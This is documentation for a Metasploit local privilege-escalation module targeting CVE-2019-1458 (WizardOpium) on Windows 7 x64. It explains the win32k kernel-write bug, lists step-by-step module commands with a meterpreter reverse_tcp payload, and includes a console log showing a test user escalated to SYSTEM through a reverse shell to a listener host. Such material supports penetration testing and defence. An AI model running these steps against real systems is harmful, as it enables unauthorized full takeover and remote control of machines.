 ## Vulnerable Application

This module exploits CVE-2019-1458, aka WizardOpium, a bug that occurs because a field within the tagSERVERINFO structure
at *(gpsi+0x154) was uninitialized, which allowed user mode attackers to set extra window data pointer in a
task switch window (designated by the FNID_SWITCH window class), which would otherwise only be able to be
set by the kernel. By setting this extra window data pointer, an attacker can write a limited amount of data
to an arbitrary kernel address in memory, thus providing them with an arbitrary kernel write primitive than can
be used to elevate privileges to SYSTEM.

This module has been tested against Windows 7 x64 SP1. Offsets
within the solution may need to be adjusted to work with other versions
of Windows.

## Verification Steps

1. Get a non-SYSTEM meterpreter session on Windows 7 SP1 x64
1. `use exploit/windows/local/cve_2019_1458_wizardopium`
1. `set session <session>`
1. `set payload windows/x64/meterpreter/reverse_tcp`
1. `set LHOST <LHOST>`
1. `set LPORT 5555`
1. `exploit`
1. Get a SYSTEM session

## Scenarios

### Windows 7 SP1 x64 with win32k.sys Version 6.1.7601.17514

```
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 172.24.15.185:4444
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 1 opened (0.0.0.0:0 -> 172.24.15.185:4444) at 2020-10-09 15:18:22 -0500

meterpreter > getuid
Server username: test-PC\test
meterpreter > privs
[-] Unknown command: privs.
meterpreter > getsystem
[-] 2001: Operation failed: This function is not supported on this system. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use exploit/windows/local/cve_2019_1458_wizardopium
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > show options

Module options (exploit/windows/local/cve_2019_1458_wizardopium):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   PROCESS  notepad.exe      yes       Name of process to spawn and inject dll into.
   SESSION                   yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.24.12.125    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 x64


msf6 exploit(windows/local/cve_2019_1458_wizardopium) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > set LPORT 6633
LPORT => 6633
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > exploit

[*] Started reverse TCP handler on 172.24.12.125:6633
[*] Executing automatic check (disable AutoCheck to override)
[+] Triggering the exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (200262 bytes) to 172.24.15.185
[*] Meterpreter session 2 opened (172.24.12.125:6633 -> 172.24.15.185:49223) at 2020-10-09 15:19:07 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeAssignPrimaryTokenPrivilege
SeAuditPrivilege
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreatePermanentPrivilege
SeCreateSymbolicLinkPrivilege
SeCreateTokenPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
SeLoadDriverPrivilege
SeLockMemoryPrivilege
SeManageVolumePrivilege
SeProfileSingleProcessPrivilege
SeRelabelPrivilege
SeRestorePrivilege
SeSecurityPrivilege
SeShutdownPrivilege
SeSystemEnvironmentPrivilege
SeSystemProfilePrivilege
SeSystemtimePrivilege
SeTakeOwnershipPrivilege
SeTcbPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : TEST-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > background
[*] Backgrounding session 2...
msf6 exploit(windows/local/cve_2019_1458_wizardopium) > sessions

Active sessions
===============

  Id  Name  Type                     Information                    Connection
  --  ----  ----                     -----------                    ----------
  1         meterpreter x64/windows  test-PC\test @ TEST-PC         0.0.0.0:0 -> 172.24.15.185:4444 (172.24.15.185)
  2         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ TEST-PC  172.24.12.125:6633 -> 172.24.15.185:49223 (172.24.15.185)

msf6 exploit(windows/local/cve_2019_1458_wizardopium) >
```
